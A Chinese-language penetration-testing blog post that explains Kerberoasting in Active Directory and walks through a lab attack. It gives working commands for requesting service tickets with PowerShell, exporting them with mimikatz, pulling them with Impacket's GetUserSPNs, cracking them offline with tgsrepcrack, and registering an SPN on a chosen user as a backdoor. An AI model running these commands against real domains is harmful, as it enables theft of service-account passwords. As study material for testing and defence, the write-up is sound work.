 ```yaml
---
title: "内网渗透-kerberoasting"
date: 2020-09-01 10:56:23 +0800
category: 内网渗透
tags: [内网,域]
excerpt: 内网渗透-kerberoasting
---
```

## 原理
用户凭借TGT票据向KDC发起针对特定服务的TGS_REQ请求，KDC使用krbtgt hash进行解密，如果结果正确，就返回用服务hash加密的TGS票据(这一步不管用户有没有访问服务的权限，只要TGT正确，就返回TGS票据，这也是kerberoating能利用的原因，任何一个用户，只要hash正确，可以请求域内任何一个服务的TGS票据

## 实验

+ 域控	192.168.5.130	Administrator
+ Win7	192.168.5.238
	机器账号SECQUAN_WIN7-PC\secquan_win7
	域用户账号ZHUJIAN\win7
+ 给域用户下的MSSQL服务注册SPN
```
setspn -A MSSQLSvc/SECQUAN_WIN7-PC.zhujian.com zhujian\win7
```
### powershell
#### 请求SPN Kerberos Tickets
```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList " MSSQLSvc/SECQUAN_WIN7-PC.zhujian.com "
```
![](https://img-blog.csdnimg.cn/20190928081129295.jpeg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzE4NTAxMDg3,size_16,color_FFFFFF,t_70)
#### 查询所存放的票据
```
klist
```
![](https://img-blog.csdnimg.cn/20190928081130119.jpeg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzE4NTAxMDg3,size_16,color_FFFFFF,t_70)
#### mimikatz导出票据
```
kerberos::list /export
```
![](https://img-blog.csdnimg.cn/20190928081130748.jpeg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzE4NTAxMDg3,size_16,color_FFFFFF,t_70)
### MIMIKATZ
```
//通过Mimikatz指定服务主体名称作为目标
kerberos::ask /target:PENTESTLAB_001/WIN-PTELU2U07KG.PENTESTLAB.LOCAL:80
//输出票据
kerberos::list
//或者，加载Kiwi模块添加一些额外的Mimikatz命令，它们也可以执行相同的任务。
load kiwi
kerberos_ticket_list
//导出票据
kerberos::list /export
```
### Impacket-GetUserSPNs
```
python GetUserSPNs.py -request -dc-ip x.x.x.x 域名称/域用户
```
如下图所示，我们获得了数据库用户的票据
![](https://upload-images.jianshu.io/upload_images/18375121-e492f105aa31d815.png?imageMogr2/auto-orient/strip|imageView2/2/w/945/format/webp)
### 使用tgsrepcrack来破解
```
python tgsrepcrack.py mima.txt 1-40a00000-win7@MSSQLSvc~SECQUAN_WIN7-PC.zhujian.com-ZHUJIAN.COM.kirbi
```
![](https://img-blog.csdnimg.cn/2019092808113120.jpeg)
## kerberoasting后门利用
如果我们有了SPN的注册权限，我们就可以给指定的域用户注册一个SPN，然后获取到TGS，然后破解得到密码

这里我们用网上的一个例子来让大家明白一下流程即可，其他的内容均与前面所讲到的相同
![](https://img-blog.csdnimg.cn/20190928081131833.jpeg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzE4NTAxMDg3,size_16,color_FFFFFF,t_70)
文章首发公众号：[无心的梦呓(wuxinmengyi)](https://blog.csdn.net/qq_18501087/article/details/101593766)


